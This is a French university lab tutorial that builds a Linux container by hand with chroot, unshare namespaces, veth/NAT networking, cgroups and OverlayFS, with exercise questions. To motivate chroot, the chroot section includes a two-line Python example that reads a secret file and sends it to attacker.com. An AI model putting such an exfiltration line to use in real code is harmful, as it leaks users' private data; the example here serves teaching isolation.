

# Labo Docker



Bien que Docker ne soit pas à proprement parler un chapitre de la programmation concurrente, de nombreux problèmes de concurrence sont aujourd'hui résolus en utilisant des **conteneurs** avec des services isolés. Ce travail pratique a pour objectif de comprendre les mécanismes profond de la conteneurisation, qui sont à la base de Docker, et de construire un conteneur à la main pour mieux comprendre ce que Docker fait "sous le capot".

## Objectifs

À la fin de ce TP, vous serez capables de :

- Expliquer ce qu'est un conteneur et en quoi il diffère d'un processus et d'une machine virtuelle;
- Décrire les mécanismes du noyau Linux qui rendent la conteneurisation possible : `chroot`, `namespaces`, `cgroups` et `OverlayFS`;
- Créer manuellement un environnement isolé (système de fichiers, processus, réseau) sans Docker;
- Comprendre ce que Docker fait "sous le capot" quand il lance un conteneur.
- Se préparer pour le prochain chapitre consacré à l'utilisation de Docker et de Docker Compose pour orchestrer des applications conteneurisées.

## Docker c'est quoi ?

Docker est un écosystème lancée en 2013 par Solomon Hykes qui permet de créer, déployer et gérer des applications exécutées dans des environnements isolés appelés conteneurs.

Un conteneur est une unité légère et portable qui contient tout ce dont une application a besoin pour fonctionner : le code, les bibliothèques, les dépendances et les configurations. Ce sont essentiellement un ensemble programmes Linux, mais avec une couche d'abstraction qui les rend plus faciles à gérer et à déployer que les machines virtuelles traditionnelles.

Contrairement à un processus qui n'est qu'un exécutable avec une mémoire isolée, un conteneur est un environnement complet d'exécution qui peut être facilement déplacé entre différents systèmes. Un conteneur se comporte comme un vrai système d'exploitation, mais il partage le noyau de l'hôte avec d'autres conteneurs, ce qui le rend plus léger que les machines virtuelles traditionnelles et surtout beaucoup plus rapide à démarrer.

Docker offre en plus une grande flexibilité de gestion et de création d'images. Les images Docker sont construites à partir de fichiers de configuration appelés Dockerfiles, qui définissent les étapes nécessaires pour créer une image à partir d'une image de base.

Tout développeur doit savoir utiliser Docker au quotidien pour créer des environnements de développement ou tester des applications.

Le fonctionnement interne de Docker, et nous allons le voir dans ce TP, repose sur les fonctionnalités du noyau Linux : `chroot` pour l'isolation du système de fichiers, `namespaces` (2002-2008) pour l'isolation des processus et du réseau, `cgroups` (2007) pour la limitation des ressources, et `OverlayFS` (2014) pour le partage efficace des fichiers entre conteneurs.

!!! question

    1. Quelle est la différence entre un conteneur et un simple processus Linux ?
    2. Pourquoi dit-on qu'un conteneur est plus léger qu'une machine virtuelle ?
    3. Donnez un exemple concret où l'isolation offerte par Docker est utile en développement.
    4. Quels sont les mécanismes du noyau Linux que Docker utilise pour créer des conteneurs isolés ? Expliquez brièvement le rôle de chacun.

## Isoler, le maître mot de la conteneurisation

Dans tout logiciel, les questions de sécurité sont primordiales: protéger les données, éviter les conflits entre applications. On distingue plusieurs niveaux d'isolation :

- **Isolation mémoire** : un processus ne peut pas accéder à la mémoire d'un autre (natif du système d'exploitation grave à la MMU).
- **Isolation de processus** : les processus ne peuvent pas interférer directement les uns avec les autres, même via des signaux ou de la mémoire partagée.
- **Isolation réseau** : un processus ne peut pas communiquer librement sur internet ou avec d'autres processus, à moins que cela ne soit explicitement autorisé.
- **Isolation du système de fichiers** : un processus ne peut pas accéder au système de fichiers de l'hôte ou d'autres processus, sauf autorisation explicite.
- **Isolation des ressources** : un processus ne peut pas monopoliser le CPU, la mémoire ou les disques sans limitation.
- **Isolation de l'environnement d'exécution** : un processus n'a pas accès aux variables d'environnement ou fichiers de configuration d'un autre.
- **Isolation utilisateur** : un processus ne peut pas accéder aux ressources d'un autre utilisateur, sauf autorisation explicite.

!!! question

    1. Un processus Linux classique bénéficie-t-il déjà de certains de ces niveaux d'isolation ? Lesquels ?
    2. Pourquoi l'isolation réseau est-elle particulièrement importante pour un service web ?
    3. Quel est le risque de deux programmes différents qui utilisent des fichiers temporaires ?

## Créer un conteneur à la main

### Prérequis

Ce tutorial est prévu pour être réalisé sur WSL2 avec Ubuntu, mais il peut être réalisé sur n'importe quelle distribution Linux dont le noyau supporte les fonctionnalités nécessaires à la conteneurisation (`cgroups` et `namespaces`), donc n'importe quelle distribution Linux depuis 2014 environ. Sous WSL2, les `cgroups` v2 sont supportés nativement depuis la mise à jour d'avril 2024.

### Installation des outils nécessaires

On aura besoin de quelques outils d'administration système pour construire notre conteneur à la main. Installez-les avec :

```bash
sudo apt update
sudo apt install -y debootstrap util-linux iproute2 iputils-ping procps mount
```

debootstrap
: Crée un système de fichiers minimal pour une distribution Linux en téléchargeant les paquets depuis un dépôt.

util-linux
: Collection d'outils système de base (`unshare`, `lsns`, gestion des partitions…).

iproute2
: Suite d'outils de gestion du réseau (`ip`, `ss`…).

iputils-ping
: Outils de test de connectivité réseau (`ping`, `traceroute`…).

procps
: Outils de surveillance des processus (`ps`, `top`, `pgrep`…).

mount
: Monte et démonte des systèmes de fichiers.

### Créer un système de fichiers pour le conteneur

On souhaite créer un conteneur avec un système de fichiers isolé. On commence par définir deux variables d'environnement pour stocker le chemin du système de fichiers du conteneur et le nom de la distribution courante :

```bash
ROOTFS=$HOME/mycontainer-rootfs
CODENAME=$(. /etc/os-release && echo "$VERSION_CODENAME")
```

Le fichier `/etc/os-release` contient les informations sur la distribution utilisée. Chez moi c'est Ubuntu 24.04, donc le `VERSION_CODENAME` est `noble` :

```bash
$ cat /etc/os-release
PRETTY_NAME="Ubuntu 24.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"
VERSION="24.04.3 LTS (Noble Numbat)"
VERSION_CODENAME=noble
ID=ubuntu
ID_LIKE=debian
```

On crée ensuite le dossier puis on demande à `debootstrap` de construire un système de fichiers minimal :

```bash
sudo mkdir -p "$ROOTFS"
sudo debootstrap --include=iproute2,iputils-ping,procps,python3 \
    --variant=minbase "$CODENAME" \
    "$ROOTFS" \
    http://archive.ubuntu.com/ubuntu/
```

`debootstrap` se connecte au dépôt Ubuntu, télécharge les paquets nécessaires et vérifie leur signature GPG pour éviter les attaques de type *man-in-the-middle* :

```text
I: Retrieving InRelease
I: Checking Release signature
I: Valid Release signature (key id F6ECB3762474EDA9D21B7022871920D1991BC93C)
I: Retrieving Packages
I: Validating Packages
I: Resolving dependencies of required packages...
...
I: Base system installed successfully.
```

Vous pouvez ensuite explorer le système de fichiers du conteneur :

```bash
$ ls $ROOTFS
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

$ ls -al $ROOTFS/usr/bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /home/ycr/mycontainer-rootfs/usr/bin/bash
```

On retrouve les applications de base comme `bash` et tous les dossiers standards d'un système Linux. Les fichiers dans `/dev` sont pour l'instant des liens symboliques vers le système de fichiers de l'hôte.

On obtient donc une copie des fichiers systèmes de base, mais ce n'est pas encore un conteneur.

!!! question

    1. Que se passerait-il si un programme malveillant dans le conteneur essayait de modifier les fichiers de l'hôte ? Par exemple, s'il modifiait `/etc/passwd` ?
    2. Pourquoi est-il important que `debootstrap` vérifie la signature GPG des paquets téléchargés ? Quel risque cela évite-t-il ?
    3. Que contient le dossier `/dev` et `/etc` dans un système Linux ?

### Chrooter dans le conteneur

La commande `chroot` (contraction de "*change root*") permet de change le répertoire racine d'un processus et de ses enfants. Sans cette protection, un programme malveillant peut lire des fichiers sensibles en utilisant des chemins absolus :

```python
secret = open('/home/boss/secret.txt', 'r').read()
request.get('http://attacker.com/leak?data=' + secret)
```

Avec `chroot`, le processus est confiné dans le système de fichiers du conteneur et ne peut plus accéder aux fichiers de l'hôte via des chemins absolus.

Lorsqu'un programme utilise des appels systèmes comme `open` ou `stat`, le noyau résout les chemins à partir du répertoire racine du processus. En utilisant `chroot`, on change ce répertoire racine pour qu'il pointe ailleurs dans l'arborescence. Le processus aura l'illusion que sa racine est le dossier du conteneur, et ne pourra pas accéder aux fichiers en dehors de ce dossier.

Chrootez dans le conteneur et ouvrez un shell :

```bash
sudo chroot "$ROOTFS" /bin/bash
```

Essayez d'accéder à vos données personnelles depuis le conteneur :

```bash
$ ls /home
```

Vous ne verrez rien : le processus est isolé dans le système de fichiers que nous avons créé. Utilisez `exit` pour revenir à votre shell normal.

!!! question

    1. `chroot` isole-t-il les processus ? Depuis le conteneur, pouvez-vous voir les processus de l'hôte avec `ps -ax` ?
    2. `chroot` isole-t-il le réseau ? Pouvez-vous pinguer une adresse externe ?
    3. Est-il possible de chrooter depuis un autre utilisateur ?

### Mount

La commande mount est importante sous Linux, elle permet de monter des systèmes de fichiers dans l'arborescence. Elle est très polyvalente et peut servir à monter des partitions de disque, des systèmes de fichiers virtuels comme `proc` ou `sysfs`, ou même des systèmes de fichiers distants via NFS. C'est la commande utilisée pour monter une clé USB, ou un disque dur externe.

A titre d'exemple essayons de créer une partition virtuelle de 100 Mo, la formater en ext4, puis la monter quelque part dans l'arborescence :

```bash
sudo mkdir -p $HOME/mydisk # Créer un point de montage
touch $HOME/mydisk/hello.txt # Créer un fichier dans le point de montage
ls -al $HOME/mydisk # S'assure que le fichier est visible

fallocate -l 100M mydisk.img # Créer un fichier de 100 Mo
mkfs.ext4 mydisk.img # Formater le fichier en ext4

# Vérifier la structure de la partition
$ sudo fdisk -l mydisk.img
Disk mydisk.img: 100 MiB, 104857600 bytes, 204800 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

# Monter le fichier comme un système de fichiers
sudo mount -o loop mydisk.img $HOME/mydisk

# Le fichier hello.txt n'est plus visible, il est masqué par
# le système de fichiers monté.
ls -al $HOME/mydisk

# Créer un fichier dans le système de fichiers monté
echo "Hello World" | sudo tee $HOME/mydisk/foo.txt
```

Désormais, le dossier `$HOME/mydisk` contient un système de fichiers ext4 monté à partir du fichier `mydisk.img`. Le fichier `hello.txt` que nous avions créé avant le montage n'est plus visible, car il est masqué par le système de fichiers monté. En revanche, le fichier `foo.txt` que nous avons créé après le montage est visible dans ce système de fichiers. Linux permet de monter des systèmes de fichiers à n'importe quel endroit de l'arborescence, ce qui est très puissant pour organiser les données et les ressources en provenance de différentes sources.

La liste des points de montage actifs peut être consultée avec la commande `mount` sans arguments, ou en lisant le fichier `/proc/mounts`. Vous pouvez voir que de nombreux mounts sont déjà actifs sur votre système. Par exemple sous WSL2:

- `C:\` est monté sur `/mnt/c`
- `proc` est monté sur `/proc`
- `sysfs` est monté sur `/sys`
- `dev` est monté sur `/dev`
- Le disque principal `/dev/sdx` est monté sur `/`

Enfin pour démonter un système de fichiers, on utilise `umount` :

```bash
sudo umount $HOME/mydisk
```

!!! question

    1. Que se passe-t-il si vous essayez de monter un système de fichiers sur un dossier qui n'existe pas ?
    2. Que se passe-t-il si vous essayez de monter un système de fichiers sur un dossier qui contient déjà des fichiers ? Sont-ils perdus ?
    3. Comment pouvez-vous vérifier quels systèmes de fichiers sont actuellement montés sur votre système ?

### Unshare

Sous Linux, un espace de noms (`namespace`) est une fonctionnalité du noyau qui permet d'isoler les ressources système pour un groupe de processus.

La notion d'espace de nom est associée à différents types de ressources : processus, réseau, système de fichiers, hostname, IPC, cgroups…

En créant un espace de noms pour une ressource donnée, on crée une "bulle" d'isolation dans laquelle les processus ne peuvent voir que les ressources qui leur sont assignées.

Par exemple, un espace de noms de processus (*pid namespace*) permet à un groupe de processus de ne voir que leurs propres processus et pas ceux de l'hôte. C'est vérouillé dans le noyau : même si un processus malveillant essaie de lister les processus de l'hôte, il ne verra que les processus du conteneur.

La commande suivante crée un nouvel espace de noms de processus et exécute `bash` dedans. Depuis ce `bash`, on affiche le PID du processus:

```bash
sudo unshare --pid --fork  bash -c "echo \$\$"
1
```

La numérotation recomence à `1` dans le nouvel espace de noms, ce qui montre que ce processus est isolé de l'hôte.

Exécutons maintenant `unshare` avec plusieurs types d'espaces de noms pour créer un environnement isolé complet. Au lieu de lancer `bash` directement, on va chrooter dans le système de fichiers du conteneur pour que l'isolation soit plus complète :

```bash
sudo unshare \
  --fork \
  --pid \
  --mount \
  --uts \
  --ipc \
  --net \
  --cgroup \
  --mount-proc \
  chroot "$ROOTFS" /bin/bash
```

| Option | Description |
| --- | --- |
| `--fork` | Fork le processus après avoir créé les espaces de noms. |
| `--pid` | Isole les processus du conteneur de ceux de l'hôte. |
| `--mount` | Isole le système de fichiers du conteneur. |
| `--uts` | Permet au conteneur d'avoir son propre nom d'hôte. |
| `--ipc` | Isole les communications inter-processus. |
| `--net` | Isole le réseau du conteneur. |
| `--cgroup` | Permet de limiter les ressources du conteneur. |
| `--mount-proc` | Monte le système de fichiers `proc` dans le conteneur. |

Notez que sous WSL2, `--mount-proc` ne fonctionne pas toujours. On peut alors monter manuellement `/proc` depuis le conteneur :

```bash
mount -t proc proc /proc
```

On peut vérifier le degré d'isolation. Depuis le conteneur, on ne voit que ses propres processus :

```bash
root/# ps -ax
    PID TTY      STAT   TIME COMMAND
      1 ?        S      0:00 /bin/bash
     11 ?        R+     0:00 ps -ax
```

L'accès réseau est également isolé :

```bash
root/# ip a
1: lo: <LOOPBACK> mtu 65536 qdisc noop state DOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
```

Pour sortir du conteneur, utilisez `exit` qui quitte le shell `bash` lancé par `unshare`.

!!! question

    1. Que se passe-t-il si vous omettez `--pid` dans la commande `unshare` ? Pouvez-vous voir les processus de l'hôte ?
    2. À quoi sert `--uts` concrètement ? Essayez de changer le hostname depuis le conteneur (`hostname monconteneur`) et vérifiez que l'hôte n'est pas affecté.
    3. Quelle option de `unshare` correspond à l'isolation réseau que vous observez avec `ip a` ?

### Établir le réseau dans le conteneur

Sans réseau, le conteneur ne peut communiquer avec personne. On va créer une interface virtuelle pour le relier à l'hôte, puis à internet. C'est la partie la plus fastidieuse, car elle nécessite de manipuler les interfaces réseau et le NAT à la main, mais c'est exactement ce que Docker fait automatiquement pour vous. Ce qu'on souhaite obtenir c'est:

```text
[ veth1 (conteneur) ] <---> [ veth0 (host) ] ---> (NAT) ---> eth0 ---> Internet
```

On crée une paire d'interfaces virtuelles, comme deux extrémités d'un câble réseau virtuel connectés à une carte réseau virtuelle :

```bash
sudo ip link add veth0 type veth peer name veth1
```

La commande se lit comme elle s'écrit: "Sudo exécute **ip** pour configurer les liens (**link**) en ajoutant (**add**) une interface appelée `veth0` de type Ethernet Virtuel (`veth`) qui a une interface jumelle appelée `veth1`". Ces deux interfaces sont connectées l'une à l'autre, formant un câble virtuel entre elles.

On veut ensuite créer un namespace réseau pour le conteneur afin de faciliter la configuration puis associer `veth1` à ce namespace:

```bash
sudo ip netns add cont
sudo ip link set veth1 netns cont
```

Les interfaces sont par défaut désactivées, il faut les activer et leur assigner des adresses IP pour qu'elles puissent communiquer :

```bash
sudo ip link set veth0 up
sudo ip addr add 10.200.1.1/24 dev veth0

sudo ip netns exec cont ip link set lo up
sudo ip netns exec cont ip link set veth1 up
sudo ip netns exec cont ip addr add 10.200.1.2/24 dev veth1
```

Le lien est maintenant établi chaque côté avec une adresse IP et dans le même sous réseau `/24` ou `255.255.255.0`. Cependant il manque une brique importante. Il faut indiquer au namespace du conteneur que sa passerelle par défaut est l'adresse IP de l'hôte (`10.200.1.1`).

```bash
sudo ip netns exec cont ip route add default via 10.200.1.1
```

Testons la connectivité entre les deux interfaces :

```bash
sudo tcpdump -i veth0 icmp &
sudo ip netns exec cont ping -c 3 10.200.1.1
```

L'outil tcpdump (`sudo apt install tcpdump`) permet de capturer les paquets réseau sur une interface donnée. En exécutant `sudo tcpdump -i veth0 icmp`, on capture les paquets ICMP (utilisés par `ping`) qui transitent sur l'interface `veth0`. Pendant que tcpdump est en cours d'exécution, on lance un ping depuis le namespace du conteneur vers l'adresse IP de l'hôte. Si tout est correctement configuré, tcpdump affichera les paquets ICMP envoyés par le conteneur et les réponses de l'hôte, confirmant que la communication entre les deux est établie.

Essayons maintenant de pinguer une adresse externe comme le DNS de Google :

```bash
sudo ip netns exec cont ping -c 3 8.8.8.8
```

Dans une configuration par défaut, internet n'est pas encore accessible :

```bash
ping: connect: Network is unreachable
```

Il faut activer le forwarding IP sur l'hôte, puis configurer le NAT :

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -s 10.200.1.0/24 -o eth0 -j MASQUERADE
```

Le **masquerading** fonctionne comme un standard téléphonique d'entreprise : le conteneur a une adresse IP "interne" (`10.200.1.2`), invisible depuis internet. Le NAT remplace cette adresse source par l'adresse publique de l'hôte dans chaque paquet sortant, et fait le chemin inverse pour les réponses, exactement comme un employé dont le numéro de poste interne `1234` est remplacé par le numéro public de l'entreprise quand il appelle à l'extérieur.

Dans Docker, plutôt que de gérer ce NAT pour chaque conteneur individuellement, on crée un pont réseau (`docker0`) auquel tous les conteneurs se connectent, et on configure le masquerading une seule fois sur ce pont.

À présent que toutes nos briques sont en place, démarrons le conteneur avec `unshare` et vérifions que nous avons accès à internet :

```bash
sudo nsenter --net=/var/run/netns/cont \
  unshare --fork --pid --mount --uts --ipc --cgroup --mount-proc \
    chroot "$ROOTFS" /bin/bash
```

Vous devriez obtenir un prompt de shell dans le conteneur, puis vous pouvez tester `ip a` pour voir l'interface `veth1`, et `ping -c 3 8.8.8.8` :

```bash
root@hostname:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
3: veth1@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether de:2a:34:e9:d3:b8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.200.1.2/24 scope global veth1
       valid_lft forever preferred_lft forever

root@hostname:/# ping -c 3 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=114 time=6.15 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=114 time=5.82 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=114 time=6.02 ms
```

!!! question

    1. Pourquoi est-il nécessaire d'activer le forwarding IP sur l'hôte pour que le conteneur puisse accéder à internet ? Que se passerait-il si vous oubliez cette étape ?
    2. Que fait exactement `--net` dans `unshare` ? Pourquoi le conteneur n'a-t-il que l'interface `lo` après `unshare` ?
    3. À quoi sert la règle `MASQUERADE` ? Que se passerait-il sans elle ?

## Cgroups

Les `cgroups` (*control groups*) sont une fonctionnalité du noyau Linux qui permet de limiter les ressources système d'un groupe de processus. Ils permettent par exemple de plafonner l'utilisation CPU d'un conteneur à 50%, ou de limiter sa mémoire à 256 Mo. Sans *cgroups*, un conteneur mal configuré pourrait monopoliser toutes les ressources de l'hôte et impacter les autres.

Sous WSL2 avec Ubuntu 24.04, les `cgroups` v2 sont supportés nativement :

```bash
$ mount | grep cgroup
cgroup on /sys/fs/cgroup type cgroup2 (rw,nosuid,nodev,noexec,relatime)
```

Cgroup est monté sur `/sys/fs/cgroup` et utilise la version 2 du système de cgroups. Vous pouvez vérifier les ressources disponibles pour les cgroups avec :

```bash
$ cat /sys/fs/cgroup/cgroup.controllers
cpuset cpu io memory hugetlb pids rdma
```

cpuset
: Permet de contrôler l'affinité CPU et la mémoire utilisée par les processus d'un groupe.

cpu
: Permet de limiter la quantité de temps CPU qu'un groupe de processus peut utiliser.

io
: Permet de limiter les opérations d'entrée/sortie sur les disques.

memory
: Permet de limiter la quantité de mémoire qu'un groupe de processus peut utiliser.

pids
: Permet de limiter le nombre de processus qu'un groupe peut créer.

Pour créer un conteneur complet, on a besoin de limiter au moins le CPU, la mémoire et les PIDs pour éviter les abus. On commence par créer un groupe de contrôle et on active les contrôleurs souhaités :

```bash
CG=/sys/fs/cgroup/demo-ctr
sudo mkdir -p "$CG"
echo "+cpu +memory +io +pids" | sudo tee /sys/fs/cgroup/cgroup.subtree_control
```

Puis on configure les limites :

```bash
# CPU : 12ms de CPU toutes les 100ms, soit ~12% d'un cœur
echo "12000 100000" | sudo tee "$CG/cpu.max"

# Mémoire : 256 Mo maximum
echo "256M" | sudo tee "$CG/memory.max"

# PIDs : 42 processus maximum
echo 42 | sudo tee "$CG/pids.max"
```

Il faut maintenant attacher le processus du conteneur à ce groupe de contrôle pour que les limites soient appliquées. Pour cela, on doit d'abord récupérer le PID du processus du groupe contenant unshare. Une technique est de démarrer `nsenter` depuis un sous shell qui commence par écrire sont PID dans le groupe de contrôle, puis de lancer `nsenter` pour chrooter dans le conteneur :

```bash
sudo bash -c "
  echo \$\$ > $CG/cgroup.procs
  sudo nsenter --net=/var/run/netns/cont \
    unshare --fork --pid --mount --uts --ipc --cgroup --mount-proc \
      chroot "$ROOTFS" /bin/bash"
```

Et voilà ! Essayons de lancer 60 procesus:

```bash
root@hostname:/# for i in {1..60}; do sleep 1000 & done
root@coin-pc:/# for i in {1..60}; do sleep 1000 & done
[1] 4
[2] 5
...
[37] 40
[38] 41
bash: fork: retry: Resource temporarily unavailable
bash: fork: Resource temporarily unavailable
```

Essayons de consommer plus de 256 Mo de mémoire :

```bash
root@hostname:/# python3 -c "a = ' ' * (300 * 1024**2)"
Killed
```

!!! question

    1. Pourquoi écrit-on 256M dans memory.max mais un nombre seul (42) dans pids.max ? Qu'est-ce qui se passe si on écrit max dans un de ces fichiers ?
    2. Que se passe-t-il si on crée un cgroup avec mkdir mais qu'on écrit rien dans cgroup.subtree_control du parent ? Pourquoi cette étape est-elle nécessaire avant de poser des limites ?
    3. Pourquoi est-il important d'attacher le processus du conteneur au groupe de contrôle ? Que se passerait-il si on oubliait cette étape ?
    4. Pourquoi les 60 sleep n'échouent-ils qu'après 37-38 réussis alors que la limite est 42 ? D'où viennent les processus "invisibles" qui occupent les PIDs restants ?
    5. Après le unshare --cgroup, la commande cat /proc/self/cgroup dans le container affiche 0::/. Pourquoi pas 0::/demo-ctr ? Qu'est-ce que ça révèle sur le fonctionnement du cgroup namespace ?

## Overlayfs

La dernière brique à explorer est le système de fichiers en overlay, qui permet de partager les fichiers de base d'une image Docker entre plusieurs conteneurs tout en permettant à chaque conteneur d'avoir ses propres modifications. C'est un mécanisme de copy-on-write : les fichiers de base sont partagés en lecture seule, et toute modification crée une copie locale dans une couche supérieure.

Docker utilise OverlayFS pour permettre à chaque conteneur d'avoir un système de fichiers isolé tout en partageant les fichiers de base avec d'autres conteneurs. Cela évite de dupliquer des gigaoctets de fichiers communs.

Créons un exemple simple indépendant de notre conteneur pour illustrer le fonctionnement d'OverlayFS. On va créer quatre dossiers : `lower`, `upper`, `work` et `merged` :

```bash
mkdir -p overlay-demo/{lower,upper,work,merged}
```

lower
: Système de fichiers de base, en lecture seule. Correspond à l'image Docker.

upper
: Modifications spécifiques au conteneur. Tout ce qui est modifié ici ne touche pas `lower`.

merged
: Vue combinée de `lower` et `upper`. C'est ce que voit le conteneur.

work
: Dossier interne utilisé par OverlayFS pour gérer les modifications (ne pas y toucher).

On crée un fichier de base dans `lower` :

```bash
echo "Hello Bob" > overlay-demo/lower/hello.txt
```

On monte le système de fichiers en overlay :

```bash
sudo mount -t overlay overlay \
    -o lowerdir=overlay-demo/lower,upperdir=overlay-demo/upper,workdir=overlay-demo/work \
    overlay-demo/merged
```

`merged` contient maintenant `hello.txt`, hérité de `lower`. Modifions-le :

```bash
echo "Hello Alice" > overlay-demo/merged/hello.txt
```

La modification n'est pas dans `lower` (intouché) mais dans `upper` :

```text
overlay-demo
├── lower
│   └── hello.txt    ← "Hello Bob"   (inchangé)
├── merged
│   └── hello.txt    ← "Hello Alice" (vue combinée)
├── upper
│   └── hello.txt    ← "Hello Alice" (la modification)
└── work
    └── work
```

Observez le contenu des fichiers dans chaque dossier pour bien visualiser ce mécanisme de copy-on-write.

OverlayFS supporte également plusieurs couches `lower` (`-o lowerdir=layer3:layer2:layer1`), ce qui permet de représenter les couches d'une image Docker — chaque instruction `RUN` dans un Dockerfile crée une nouvelle couche.

!!! question

    1. Que se passe-t-il si vous supprimez un fichier dans `merged` ? Est-il supprimé dans `lower` ?
    2. Que se passe-t-il si vous créez un nouveau fichier dans `merged` ? Où est-il créé ?
    3. Pourquoi Docker utilise-t-il OverlayFS pour gérer les systèmes de fichiers des conteneurs ? Quels avantages cela apporte-t-il en termes de performance et de stockage ?

## Container Mini Docker

Maintenant que nous avons exploré les briques fondamentales de la conteneurisation, essayons de les assembler pour créer un mini Docker à la main. On vous fournit un script `mdocker` qui simule le fonctionnement de Docker de manière très primitive.

```bash
$ chmod +x mdocker
$ sudo ./mdocker pull ubuntu # Télécharge une image de base (simulé par debootstrap)
$ sudo ./mdocker run -m100M --cpus=2 ubuntu bash # Lance un conteneur
root# vim
bash: vim: command not found
root# apt update && apt install -y vim
root# vim --version
root# exit

$ sudo ./mdocker run -m100M --cpus=2 ubuntu bash # Lance un conteneur
root# vim --version
bash: vim: command not found
```

On a créé un conteneur à partir de l'image `ubuntu` (en réalité, on utilise le système de fichiers que nous avons construit avec `debootstrap`), puis on a installé `vim` dans ce conteneur. Lorsque nous lançons un nouveau conteneur à partir de la même image, `vim` n'est pas présent, car les modifications apportées dans le premier conteneur ne sont pas partagées avec les autres. C'est exactement le comportement que vous attendez d'un conteneur : chaque instance est isolée et ne partage que les fichiers de base de l'image, pas les modifications spécifiques à chaque conteneur.

!!! question

    1. Ouvrez le script `mdocker` et repérez la commande `mount -t overlay`. Quels sont les quatre répertoires utilisés ? Lequel correspond à l'image de base en lecture seule, lequel reçoit les modifications, et lequel est la vue combinée dans laquelle le processus s'exécute ?
    2. Pourquoi `vim` disparaît-il entre deux `mdocker run` ? Tracez le chemin exact : dans quel répertoire `apt install vim` écrit-il ses fichiers, et que fait le script à la sortie du conteneur avec ce répertoire ?
    3. Depuis le conteneur, exécutez `ip a` et `ip route`. Quelle est l'adresse IP du conteneur ? Quelle est la passerelle ? Pouvez-vous pinguer `8.8.8.8` ? Pourquoi le conteneur a-t-il accès à internet alors qu'il est dans un namespace réseau isolé ?
    4. Regardez dans le script la section cgroups. Quelle valeur est écrite dans `cpu.max` si vous passez `--cpus=0.5` ? Que signifie ce couple de nombres pour le scheduler Linux ?
    5. Le script utilise `unshare` sans l'option `--user`. Pourquoi faut-il lancer `mdocker` avec `sudo` ?


## Machines virtuelles vs Conteneurs

Un dernier point de comparaison important : les conteneurs ne sont pas des machines virtuelles. Les machines virtuelles utilisent un hyperviseur pour émuler un ordinateur complet avec son propre noyau, tandis que les conteneurs partagent le noyau de l'hôte et n'isolent que les ressources via les mécanismes que nous avons explorés (`namespaces`, `cgroups`, `overlayfs`).

| Critère | Machine Virtuelle | Conteneur |
| ------- | :---------------: | :-------: |
| Noyau | Propre noyau invité | Partagé avec l'hôte |
| Démarrage | Quelques minutes | Quelques secondes |
| Taille typique | Plusieurs Go | Quelques dizaines de Mo |
| Isolation | Forte (niveau matériel) | Moyenne (namespaces noyau) |
| Overhead CPU/mémoire | Élevé (hyperviseur) | Faible |
| Portabilité | Dépend de l'hyperviseur | Standard Docker/OCI |
| Cas d'usage typique | Isolation forte, OS différents | Microservices, déploiement rapide |

!!! question

    1. Quels sont les avantages et les inconvénients des conteneurs par rapport aux machines virtuelles en termes de performance, d'isolation et de portabilité ?
    2. Est-il possible de faire tourner un conteneur Windows sur un hôte Linux ? Pourquoi ?
    3. Docker utilise-t-il des machines virtuelles pour faire tourner les conteneurs ? Pourquoi ou pourquoi pas ?

## Nettoyage

La partie expérimentale de ce TP est maintenant terminée. Nettoyons les ressources créées :

```bash
# Démontage du conteneur
sudo umount "$ROOTFS/proc" 2>/dev/null
sudo umount "$ROOTFS/sys"  2>/dev/null
sudo umount "$ROOTFS/dev"  2>/dev/null
sudo rm -rf "$ROOTFS"

# Suppression des interfaces réseau (supprime veth0 et veth1 d'un coup)
sudo ip link delete veth0 2>/dev/null

# Suppression de la règle NAT
sudo iptables -t nat -D POSTROUTING -s 10.200.1.0/24 -o eth0 -j MASQUERADE 2>/dev/null

# Désactivation du forwarding IP (se réinitialise au redémarrage de toute façon)
sudo sysctl -w net.ipv4.ip_forward=0

# Démontage de l'overlay
sudo umount overlay-demo/merged 2>/dev/null
rm -rf overlay-demo
```

## Conclusion

Dans ce travail pratique, nous avons construit un conteneur à la main en utilisant les quatre briques fondamentales du noyau Linux :

1. **chroot** — isole le système de fichiers du conteneur.
